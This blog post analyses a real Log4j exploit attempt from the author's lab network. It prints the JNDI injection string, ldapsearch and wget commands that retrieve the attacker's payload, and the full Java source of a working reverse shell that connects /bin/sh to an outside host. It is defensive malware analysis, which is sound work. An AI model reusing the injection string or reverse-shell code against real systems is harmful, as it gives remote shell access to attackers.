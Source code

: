 ```yaml
---
title: "How to View a Log4j Payload Using ldapsearch"
date: 2021-12-30T12:35:38-06:00
toc: false
images:
categories:
  - tech
tags: 
  - log4j
  - ldapsearch
description: Exploring a log4j payload using the ldapsearch command.
---
```

Log4j received quite a bit of attention over the past few weeks. The vulnerability is incredibly easy to exploit, requires no human interaction, and has the ability to execute any payload a malicious actor injects. But how does it retrieve the payload? What does the JNDI `${jndi:ldap://185.25.51.48:1389/a}` string do?

Let's explore these questions by looking at a real world log4j exploit attempt. These are the actual IP address and exploit code from a real attempt to exploit the log4j vulnerability on my lab network.

## Detecting a Real World log4j Exploit Attempt

I'm using the Zeek [CVE-2021-44228](https://github.com/corelight/cve-2021-44228) log4j package to detect log4j exploits on my lab network. In this example, Zeek detected a log4j event and logged the attempt. The `uri` field contains the IP address and port of the server hosting the log4j payload `uri: 185.25.51.48:1389/a`:

```
 { [-]
   _path: log4j
   _write_ts: 2021-12-29T17:52:02.205801Z
   http_uri: /
   is_orig: true
   matched_name: false
   matched_value: true
   method: GET
   name: COOKIE
   stem: 185.25.51.48:1389
   target_host: 185.25.51.48
   target_port: 1389
   ts: 2021-12-29T17:52:02.205801Z
   uri: 185.25.51.48:1389/a
   value: ${jndi:ldap://185.25.51.48:1389/a}
} 
```

## Connecting to the LDAP Server Hosting the Payload

After determining the LDAP URL where the malicious payload is hosted, use the `ldapsearch` command to retrieve the payload.

The `-x` option enables anonymous authentication, and `-H` specifics the LDAP URL retrieved from the Zeek log:

```text
ldapsearch -x -H ldap://185.25.51.48:1389/a
```

Pay attention to the following attributes in the `ldapsearch` output:

```
javaCodeBase: http://185.25.51.48:8000/
objectClass: javaNamingReference
javaFactory: Exploit
```

These lines indicate the payload location (http://185.25.51.48:8000/) and file (Exploit) to download.

Example output:

```
jemurray@shell:~$ ldapsearch -x -H ldap://185.25.51.48:1389/a
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:
javaClassName: foo
javaCodeBase: http://185.25.51.48:8000/
objectClass: javaNamingReference
javaFactory: Exploit

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

## Viewing the Contents of the Website Hosting the Payload

The `javaCodeBase` attribute contains the URL hosting the malicious payload. For this example, I want to download all files on the remote site by using `-r` (recursive) option to `wget`:

```text
wget -r http://185.25.51.48:8000/
```

Example output:

```
jemurray@shell:~/log4j$ wget -r http://185.25.51.48:8000/
--2021-12-30 17:10:13--  http://185.25.51.48:8000/
Connecting to 185.25.51.48:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 953 [text/html]
Saving to: ‘185.25.51.48:8000/index.html’

185.25.51.48:8000/index.html              100%[====================================================================================>]     953  --.-KB/s    in 0s

2021-12-30 17:10:13 (98.0 MB/s) - ‘185.25.51.48:8000/index.html’ saved [953/953]
...LOTS OF DELETED LINES GO HERE...
```

Here's the contents of the website:

```
jemurray@shell:~/log4j/185.25.51.48:8000$ ls -al
total 76
drwxr-xr-x 7 jemurray jemurray 4096 Dec 30 17:32 .
drwxr-xr-x 3 jemurray jemurray 4096 Dec 30 17:43 ..
drwxr-xr-x 3 jemurray jemurray 4096 Dec 30 17:10 bin
-rw-r--r-- 1 jemurray jemurray  177 Dec 28 16:13 Dockerfile
-rw-r--r-- 1 jemurray jemurray 1361 Dec 30 08:11 Exploit.class
-rw-r--r-- 1 jemurray jemurray 1082 Dec 30 08:11 Exploit.java
drwxr-xr-x 7 jemurray jemurray 4096 Dec 30 17:10 .git
-rw-r--r-- 1 jemurray jemurray   23 Dec 28 16:13 .gitignore
-rw-r--r-- 1 jemurray jemurray  953 Dec 30 17:10 index.html
drwxr-xr-x 8 jemurray jemurray 4096 Dec 30 17:10 jdk1.8.0_20
-rw-r--r-- 1 jemurray jemurray 4208 Dec 28 16:13 poc.py
-rw-r--r-- 1 jemurray jemurray 4239 Dec 28 16:13 README.md
-rw-r--r-- 1 jemurray jemurray   18 Dec 28 16:13 requirements.txt
drwxr-xr-x 2 jemurray jemurray 4096 Dec 30 17:10 target
-rw-r--r-- 1 jemurray jemurray 4096 Dec 28 16:20 ._ubnfilel.txt
-rw-r--r-- 1 jemurray jemurray 1109 Dec 28 16:20 ubnfilel.txt
drwxr-xr-x 4 jemurray jemurray 4096 Dec 30 17:10 vulnerable-application
```

## Examining the Exploit Code

The following attributes from the JNDI URL, tell the vulnerable system to download the `Exploit.class` file:

```
objectClass: javaNamingReference
javaFactory: Exploit
```

Within the remote directory there is a corresponding file matching the `javaFactory` attribute:

```
jemurray@shell:~/log4j/185.25.51.48:8000$ ls -al Exploit.class
-rw-r--r-- 1 jemurray jemurray 1361 Dec 30 08:11 Exploit.class
jemurray@shell:~/log4j/185.25.51.48:8000$ file Exploit.class
Exploit.class: compiled Java class data, version 52.0 (Java 1.8)
```

The source code for the class file is in the same directory:

```
jemurray@shell:~/log4j/185.25.51.48:8000$ more Exploit.java

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="185.25.51.48";
        int port=9001;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
```

## Remote Shell

The code above makes a connection to port `9100` on the remote server and connects it to `/bin/sh` within the compromised server.  We can use the `nc` command to simulate what the exploit code is doing:

```text
nc 185.25.51.48 9001
```

Example Output:

```
jemurray@shell:~/log4j/185.25.51.48:8000$ nc 185.25.51.48 9001
^C
jemurray@shell:~/log4j/185.25.51.48:8000$ nc 185.25.51.48 9001
(UNKNOWN) [185.25.51.48] 9001 (?) : Connection refused
jemurray@shell:~/log4j/185.25.51.48:8000$ nc 185.25.51.48 9001
(UNKNOWN) [185.25.51.48] 9001 (?) : Connection refused
jemurray@shell:~/log4j/185.25.51.48:8000$ nc 185.25.51.48 9001
(UNKNOWN) [185.25.51.48] 9001 (?) : Connection refused
jemurray@shell:~/log4j/185.25.51.48:8000$ nc 185.25.51.48 9001
(UNKNOWN) [185.25.51.48] 9001 (?) : Connection refused
```

I was able to connect to the remote server, but too quickly pressed `ctrl-c`.  Subsequent connections failed. It looks like the remote server was only capable of a single connection. I should have waited for a while to see if the malicious actor would attempt to execute commands.  Since we were running `nc`, all their commands would have been echo'ed back to us.


